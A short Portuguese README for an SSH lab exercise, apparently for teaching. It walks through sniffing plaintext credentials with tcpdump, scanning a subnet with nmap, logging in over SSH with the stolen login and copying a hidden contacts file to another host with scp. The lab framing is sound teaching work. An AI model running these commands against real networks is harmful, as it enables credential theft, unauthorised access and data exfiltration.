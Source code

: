 # Um simples Lab de SSH 
## Exercicio de Intercept onde em uma maquina deve estar rodando o cliente e em outra um server com elas se comunicando deve-se rodar um tcpdump e filtrar os dados de login e senha, para ganhar acesso e usar o nmap para achar o IP com acesso via ssh Open, logar usar ls -la para find pasta .dados e copiar com scp os dados contatos.txt 

### Bem Simples
## Rode em Linux em Ambiente 100por cento Linux 
* $  tcpdump -i wlp2s0 -A | grep Login
=Login: Fernando

* $  tcpdump -i wlp2s0 -A | grep senha
=senha: quadrado

* $ nmap -p 22 192.168.0.1/24 # get ip 192.168.0.6 neste caso é o com open port 
* $ ssh -l Fernando 192.168.0.6
* $ ls -la 
* $ cd .dados
* $ scp contatos.txt delicia@192.168.0.2:/home/delicia/dados
* $ exit # bjk flow 
